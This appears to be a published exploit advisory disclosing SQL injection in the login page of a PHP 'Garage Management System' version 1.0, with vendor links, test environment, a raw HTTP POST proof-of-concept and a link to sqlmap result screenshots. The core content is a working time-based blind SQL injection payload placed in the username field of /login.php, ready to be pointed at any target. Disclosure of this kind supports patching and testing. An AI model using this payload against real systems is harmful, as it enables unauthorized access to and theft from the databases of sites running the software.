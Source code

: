 ### Exploit Title: Garage Management System - Multiple SQL injections
### Date: 2022-07/19
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.htm
### Version: 1.0
### Tested on: windows10 + phpstudy

# 1./login.php
/login.php SQL injection exists at the login port

### Sample request POC #1

```
POST /login.php HTTP/1.1
Host: [TARGET URL/IP]
Content-Length: 41
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://shen-ji.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://shen-ji.com/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=coj91b4jkkol1s8oalg3r7in12
Connection: close

username=1@a.com' AND (SELECT 6427 FROM (SELECT(SLEEP(5)))LwLu) AND 'hsvT'='hsvT&password=412312&login=
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/20220719153600.png "Garage Management System")


